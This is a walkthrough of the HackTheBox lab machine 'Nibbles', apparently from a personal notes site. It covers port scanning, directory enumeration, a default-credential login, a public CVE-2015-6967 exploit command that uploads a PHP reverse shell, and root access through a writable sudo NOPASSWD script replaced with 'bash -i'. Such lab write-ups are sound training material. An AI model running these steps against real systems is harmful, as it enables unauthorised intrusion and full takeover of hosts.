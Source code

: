```yaml
---
title: Nibbles
tags:
  - HackTheBox
  - Easy
  - Linux
  - Web
  - Sudo-Vulnerability
---
```

![](Pasted%20image%2020241104161017.png)

## Reconnaissance

First, I added the new host to my known ones:

```shell
sudo echo "10.10.10.75 nibbles.htb" | sudo tee -a /etc/hosts
```

Then, I performed a Nmap scan:

```shell
nmap -sC -T4 -p- nibbles.htb > sC.txt

[redacted]
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http
|_http-title: Site doesn't have a title (text/html).
```

So I decided to take a look at the webpage:

![](Pasted%20image%2020241104161240.png)

Inspecting the source code I notice the hidden directory `nibbleblog`:

![](Pasted%20image%2020241104161349.png)

![](Pasted%20image%2020241104161421.png)

So I decided to perform some enumeration using [dirsearch 📁](/notes/tools/dirsearch.md):

```shell
dirsearch -e php -u http://nibbles.htb/nibbleblog/

[redacted]
[16:17:19] 301 -  321B  - /nibbleblog/admin  ->  http://nibbles.htb/nibbleblog/admin/
[16:17:19] 200 -  606B  - /nibbleblog/admin.php                             
[16:17:19] 200 -  516B  - /nibbleblog/admin/                                
[16:17:19] 301 -  332B  - /nibbleblog/admin/js/tinymce  ->  http://nibbles.htb/nibbleblog/admin/js/tinymce/
[16:17:19] 200 -  563B  - /nibbleblog/admin/js/tinymce/
[16:17:24] 301 -  323B  - /nibbleblog/content  ->  http://nibbles.htb/nibbleblog/content/
[16:17:24] 200 -  485B  - /nibbleblog/content/                              
[16:17:25] 200 -  724B  - /nibbleblog/COPYRIGHT.txt                         
[16:17:29] 200 -   92B  - /nibbleblog/install.php                           
[16:17:29] 200 -   92B  - /nibbleblog/install.php?profile=default           
[16:17:30] 301 -  325B  - /nibbleblog/languages  ->  http://nibbles.htb/nibbleblog/languages/
[16:17:30] 200 -   12KB - /nibbleblog/LICENSE.txt                           
[16:17:34] 200 -  694B  - /nibbleblog/plugins/                              
[16:17:34] 301 -  323B  - /nibbleblog/plugins  ->  http://nibbles.htb/nibbleblog/plugins/
[16:17:35] 200 -    5KB - /nibbleblog/README                                
[16:17:39] 301 -  322B  - /nibbleblog/themes  ->  http://nibbles.htb/nibbleblog/themes/
[16:17:39] 200 -  498B  - /nibbleblog/themes/                               
[16:17:40] 200 -  815B  - /nibbleblog/update.php
```

So I checked the `admin.php` file:

![](Pasted%20image%2020241104162503.png)

After some typical combination, none got me inside, so I decided to check the other findings. The one who got me up was `update.php`:

![](Pasted%20image%2020241104162615.png)

*So can I read private files?* That gave me an idea: I could inspect the `http://nibbles.htb/nibbleblog/content/private/` directory and maybe find some creds:

![](Pasted%20image%2020241104162734.png)

The one which was more interesting was `users.xml`:

![](Pasted%20image%2020241104163003.png)

Now we know that there is a user called `admin`

## Exploitation

Then i decided to search for "*nibbleblog cve*" and found [CVE-2015-6967](https://github.com/dix0nym/CVE-2015-6967). BTW it seems that common creds to use are `admin:nibbles`. I tried them and worked:

![](Pasted%20image%2020241104163159.png)

So I cloned the repo and executed the exploit to get a reverse shell:

```shell
python3 exploit.py --url http://nibbles.htb/nibbleblog/ --username admin --password nibbles --payload ../../shell.php
```

![](Pasted%20image%2020241104163547.png)

Now I can read the user flag:

![](Pasted%20image%2020241104164111.png)

## Privilege Escalation

If we run:

```shell
sudo -l

[redacted]
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

So we can create that file with the following content:

```shell
bash -i
# Then
sudo /home/nibbler/personal/stuff/monitor.sh
```

Now we're root and can read root flag:

![](Pasted%20image%2020241104164949.png)

==Machine pwned!==



